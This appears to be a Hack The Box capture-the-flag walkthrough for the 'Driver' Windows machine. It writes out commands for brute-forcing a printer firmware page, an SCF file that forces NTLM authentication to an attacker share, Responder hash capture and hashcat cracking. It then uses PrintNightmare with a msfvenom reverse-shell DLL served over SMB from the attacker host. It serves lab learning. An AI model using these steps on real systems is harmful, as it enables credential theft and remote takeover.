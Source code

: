## HTB: Driver Walkthrough

### Recon
```bash
nmap -p- -T4 10.10.11.106
nmap -sC -sV -p80,135,445 10.10.11.106
```
- Port [80](HTTP): IIS HTTP, basic auth prompt ("MFP Firmware Update Center")
- Port 135/[445](SMB): Typical Windows services
- `/etc/hosts` entry: `10.10.11.106 driver.htb`

### Web Brute-force
```bash
nmap -p80 --script http-brute 10.10.11.106
```
- **Found**: admin:admin
- Firmware upload page (printer model Ricoh)

### Forced Authentication (Responder Attack)
**SCF Payload**:
```ini
[Shell]
Command=2
IconFile=\\10.10.14.131\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
- Upload `.scf` via firmware update
- Start Responder:
```bash
sudo responder -I tun0 -A
```
- Captured NTLMv2 hash for user `tony`

### Crack NTLMv2 with Hashcat
```bash
hashcat -m5600 captured-hashes.txt /usr/share/wordlists/rockyou.txt --force
```
- **Cracked**: `tony:liltony`

### Access with Evil-WinRM
```bash
evil-winrm -i 10.10.11.106 -u 'DRIVER\\tony' -p 'liltony'
```
- Retrieved `user.txt`

### Enumeration for Privilege Escalation
```powershell
schtasks /query /fo LIST /v > lst.txt
```
- Found job: `C:\Users\tony\appdata\local\job\job.bat`
```bat
@echo off
:LOOP
%SystemRoot%\explorer.exe "C:\firmwares"
ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1
DEL /q C:\firmwares\*
cls
GOTO :LOOP
```
- `quit.ps1` closes file explorer window if folder is open

### PrintNightmare Exploit (CVE-2021-1675)
```bash
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
```
- Generate reverse shell DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.216 LPORT=4444 -f dll > shell-x64.dll
```
- Configure and start Samba:
```ini
[smb]
    path = /tmp
    guest ok = yes
    read only = no
    browsable = yes
```
```bash
cp shell-x64.dll /tmp/
sudo service smbd start
```
- Patch impacket:
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 setup.py install
```
- Run exploit:
```bash
python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 \\10.10.14.216\smb\shell-x64.dll
```
- **Catch shell**:
```bash
nc -nvlp 4444
```

### Privilege Escalation
```bash
whoami
# nt authority\system
cat C:\Users\Administrator\Desktop\root.txt
```

### Summary
- Initial foothold through default creds on printer firmware page
- Forced authentication with `.scf` file to capture NTLM hash
- Used Evil-WinRM with cracked creds
- Privilege escalation using PrintNightmare exploit
- Full SYSTEM access achieved